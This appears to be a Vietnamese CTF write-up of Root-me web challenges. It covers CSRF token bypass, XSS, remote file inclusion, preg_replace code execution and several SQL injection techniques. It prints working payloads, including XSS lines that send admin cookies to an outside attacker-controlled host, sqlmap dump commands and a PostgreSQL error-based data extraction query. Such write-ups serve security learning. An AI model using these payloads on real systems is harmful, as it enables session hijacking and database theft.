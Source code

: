 ![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/bc3999a1-f0c1-4ae3-ba53-c998cd4cdef5)# Root-me
``capy3ra``

## CSRF – token bypass

1. Để lấy được flag trong action=private thì tài khoản của attacker phải được admin approved bằng cách tick checkbox ở action=profile.
2. Vector tấn công ở đây sẽ là action=contact khi mà gửi comment thì admin sẽ đọc comment. Và ta sẽ poisoning input đó.
3. Tuy nhiên ở đây, server triển khai csrf token. Do đó trước hết phải lấy được token của admin ở action=profile. Chúng ta có thể lấy được token đó bằng cách gửi một request đến action=profile với admin session khi mà ta lừa admin đọc comment mà ta gửi kèm với payload. 
```
var request = new XMLHttpRequest();
request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
request.send(null); 
var respone = request.responseText; 
var groups = respone.match("token\" value=\"(.*?)\""); 
var token = groups[1];
```

4. Sau đó tạo một form có checkbox có giá trị "on" với username account của attacker được tự động gửi. Dẫn đến account của attacker có thể được admin approved.
5. Toàn bộ Payload:
```
<form name="csrf" method="POST" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" enctype="multipart/form-data">
	<input id="username" type="text" name="username" value="cuong">
	<input id="status" type="checkbox" name="status" checked value="on">
	<input id="token" type="hidden" name="token" value= />
</form>

<script>
 	var request = new XMLHttpRequest();
 	request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
 	request.send(null); 
 	var respone = request.responseText; 
 	var groups = respone.match("token\" value=\"(.*?)\""); 
 	var token = groups[1];
	document.getElementById("token").value = token;
    document.csrf.submit();

</script>
```
6. Vào action=private lấy flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/b6eb6b27-cf83-4790-9ac6-c4e93463e4ac)

## XSS - Reflected

1. Ở đây khi view source của trang home nhận thấy một comment trỏ đến một endpoint khả nghi
``<!--li><a href="?p=security">Security</a></li-->``
2. Khi truy cập đến endpoint đó, trang trả về trang not found nhưng có một tính năng có khả năng thực thi xss đó là `report to the adminitrator` nó sẽ gửi url hiện tại cho admin.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/7c494b7f-f1cf-49fa-b604-d85729af6a51)
3. Khi thử chèn xss payload `<script>alert(1)</script> vào param p thì nhận thấy nó vẫn nằm trong thuộc tính href và bị escapse.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/3cc8c278-2390-4402-91be-42088bbce90c)
4. Thử inject để escapse thuộc tính href bằng payload `test' onmousemove='alert(document.cookie)` thì nhận thấy thành công.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/3f2b372a-201b-496f-ad39-3c4b08d983f1)
5. Craft payload để sau khi report url cho admin mà admin thực hiện một event xác định đó thì sẽ redirect tới trang mà attacker có thể kiểm soát. Payload:
``test' onmousemove='document.location="http://oceanmancuonh.site?cmd=".concat(document.cookie)``
6. Vào access_log của server để có thể lấy được cookie có chứa flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/74394933-97c5-48f9-add3-1ef5c9f3488e)

## XSS - Stored 2

1. Ở bài này nhận thấy rằng input truyền vào ở title và message đều bị filter không thể inject xss được.
2. Tuy nhiên nhận thấy khi thay đổi giá trị cookie status thì nó cũng reflect lại ở phần Posted messages.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/36fee880-5d29-41aa-b5af-ecee91de1c54)
3. Inject thử xss vào với payload `"><script>alert(1)</script>` thì thấy thành công.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/06fbd079-8e1e-471b-94ca-09e2653253ab)
4. Được biết sau khi gửi message thì admin sẽ đọc và dựa vào tiêu đề chal -> ta sẽ thực  hiện stored xss với payload sau để lấy cookie của admin.
``"><script>document.location='http://oceanmancuonh.site?c='+document.cookie</script>``
5. Vào access_log thì nhận thấy chúng ta có được admincoookie.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/f30cfa35-49b8-4c86-b50f-50495d8cda27)
6. Thêm admincookie rồi vào endpoint session=admin thì nhận được flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/a0bee487-2455-4b01-911f-5f2a91328bf3)

## Remote File Inclusion

1. Ở bài này có thể thấy hint từ tiêu đề là RFI vào param `lang`.
2. Thử nhiều payload nhận thấy trong thông báo lỗi rằng các đầu vào đều được thêm đoạn `_lang.php` vào.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/207dc1c5-ec46-47cb-8009-913a57e1dfce)
3. Để bypass nó thử các trick như `%00` hay `#` đều không được. Nhưng `?` thì lại thành công.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/53805ead-2610-475a-ab9b-c3d285dd3329)
4. Tạo một endpoint trên site của mình. (Ở đây phải đổi payload.php về payload vì để .php là 1 file chứ k phải 1 endpoint =.=)
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/a67164e6-6ed7-4bfc-99a3-e011eca19d84)
5. Trỏ về endpoint đấy, mở source.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/91322818-374b-4e28-856d-cc1daf411190)

## PHP – preg_replace()

1. Ở bài này thử sử dụng hàm preg_replace(). Đồng thời search các cách bypass hàm này thì nhận thấy trong php ver < 5.5 modifier “e”, khi xuất hiện trong patterns thì hàm preg_replace() sẽ parse replacements thành mã PHP, sau đó sẽ tìm kiếm patterns trong chuỗi input và thay nó bằng kết quả thực thi.
2. Sau khi thử nhiều payload.
``
search=/microsoft/e&replace=exec('whoami');&content=Visit+Microsoft
Visit Microsoft
search=microsoft/e&replace=exec('whoami');&content=Visit+microsoft
Warning: preg_replace(): Delimiter must not be alphanumeric or backslash in /challenge/web-serveur/ch37/index.php on line 25
search=/microsoft/e&replace=exec('whoami');&content=Visit+microsoft
Warning: exec() has been disabled for security reasons in /challenge/web-serveur/ch37/index.php(25) : regexp code on line 1
``
3. Nhận thấy được một vài điều rằng patterns chưa có dấu / ở đầu.
4. Các hàm như exec, shell_exec, system đều bị filter. Ở đây ta có thể dùng các hàm sau đều có thể exploit được đó là `phpinfo()`, `file_get_content("flag.php")` hoặc `fread(fopen("flag.php","r"),filesize("flag.php"))`
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/9c01d6f4-804d-4c8a-928f-40d0529d1b51)

## SQL injection - Blind

1. Với tiêu đề là SQLi ô login ta sẽ thử các payload ở ô username.
`admin' OR 1=1--`: Hiện lên thông báo log thành công vào user `user1` như vậy với payload mà tất cả record đều hợp lệ thì user `user1` được để ở đầu nên sẽ log vào nó.
`admin' AND 1=1--`: Log thành công vào tk `admin`
2. Như vậy ta có thể lợi dụng thông tin báo log thành công hay không để thực hiện blind boolean query. Xác định thông qua các bảng metadata biết được có bảng `users`
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/9ece16e4-254c-44c6-b1dc-f0afe6669107)
3. Sau đó brute-force các ký tự trong bảng sql của bảng `sqlite_master`.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/734a43a6-4fdb-4714-ad59-2138e39a4d24)
4. Tiếp theo brute-force các ký tự password. Từ đó nhận được password -> flag. 
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/2feea9ae-e728-49db-8ec8-fa79217e5183)
5. Cách thứ 2 là dùng sqlmap
6. Trước hết lưu request thử function vào một file ví dụ blind_sqli.txt `sqlmap -r blind_sqli.txt --dbs` thì nhận được recommend nên tìm bằng `sqlmap -r blind_sqli.txt --tables`
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/37fc59e9-f4d6-47f7-86ee-9ccc50c01b81)
7. Tìm được bảng user. Tiếp theo dump các record trong bảng.  `sqlmap -r blind_sqli.txt -T users --dump`
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/fb106167-b3b4-43ff-abae-344f9b2e165a) 

## SQL injection error-based (sqlmap)

1. sqlmap với các payload
- ``sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs``:
	- Lấy được danh sách 3 database:
``
[*] information_schema
[*] pg_catalog
[*] public
``
- ``sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables``
	- Lấy được 2 table trong database public: content, m3mbr35t4bl3
- ``sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump``
	- Lấy được các record trong bảng:
```
+----+-----------------+----------------------+--------------+
| id | em41l_c0l       | p455w0rd_c0l         | us3rn4m3_c0l |
+----+-----------------+----------------------+--------------+
| 1  | admin@localhost | 1a2BdKT5DIx3qxQN3UaC | admin        |
+----+-----------------+----------------------+--------------+
```

## SQL injection error-based (manually)

1. Vào solution của bài có nhiều cách hay. Dưới đây là một cách.
- Payload: `GET /web-serveur/ch34/?action=contents&ORDER=DSC`. Thử tạo lỗi.
```
    ERROR:  syntax error at OR near "DSC"
    LINE 1: ...eout TO 100; COMMIT;SELECT * FROM contents ORDER BY page DSC
                                                                        ^
```
2. Xác định database
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/4613b056-15f7-4723-916a-cb6c21e360d3)
3. Sử dụng CAST error-based injection với hàm database_to_xml (PostgreSQL-specific):
- Payload: ``GET /web-serveur/ch34/?action=contents&ORDER=ASC, (SELECT CAST(CHR(32)||(SELECT database_to_xml(TRUE,TRUE,'')) AS NUMERIC)) ASC``
4. Và nhận được
```
    ERROR:  invalid input syntax for type numeric: " <c_webserveur_34 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="'">
    <public>
    <contents>
      <id>1</id>
      <page>Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua.</page>
    </contents>
    <m3mbr35t4bl3>
      <id>1</id>
      <us3rn4m3_c0l>admin</us3rn4m3_c0l>
      <p455w0rd_c0l>1a2BdKT5DIx3qxQN3UaC</p455w0rd_c0l>
      <em41l_c0l>admin@localhost</em41l_c0l>
    </m3mbr35t4bl3>
    </public>
    </c_webserveur_34>
```

## SQL injection - Insert

1. Với gợi ý từ tiêu đề ta biết hướng tiếp cận sẽ là sqli insert cụ thể là vào chức năng register.
2. Khi thử chèn vào ô username và password đều nhận được thông báo lỗi `char not author` tức là ta sẽ không thể chèn vào 2 ô input này và chỉ có thể chèn vào ô email input.
3. Sau khi fuzz nhận thấy cột email sẽ được lưu dưới dạng string nên chỉ có thể khai thác theo kiểu nối chuỗi hoặc double query.
4. Thử khai thác theo kiểu nối chuỗi thì có thể cũng có hope nhưng hơi mệt tiến hành khai thác theo kiểu double query.
- Payload: `username=111&password=111&email=cuong9cm@gmail.com'),('test','test',(SELECT version()));#`
5. Register thành công 2 tài khoản. Giờ vào acc test kiểm tra.

![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/2db004cb-773a-4218-81a2-aff92daf5eac)

6. Detect được db dùng mariadb. Vào trang [SQL_test_online](https://sqliteonline.com/) để thử.
7. Dùng payload `SELECT COUNT(TABLE_NAME) FROM information_schema.tables` để tìm số bảng trong database. 
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/7e0e7cd0-011e-4e25-9bcf-98e0f65b4a1f)
8. Dùng payload `SELECT TABLE_NAME FROM information_schema.tables LIMIT 79,1`. Để lấy tên bảng cuối cùng.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/8ed6316f-708f-4e68-8bbc-b7b8fa8bdd77)
9. Biết được trong bảng flag có cột flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/e3420fab-956d-401a-80f8-bfacf7b1ceb5)
10. Lấy flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/a61c6772-acd1-4a23-9df4-54638ba8f94d)

## 
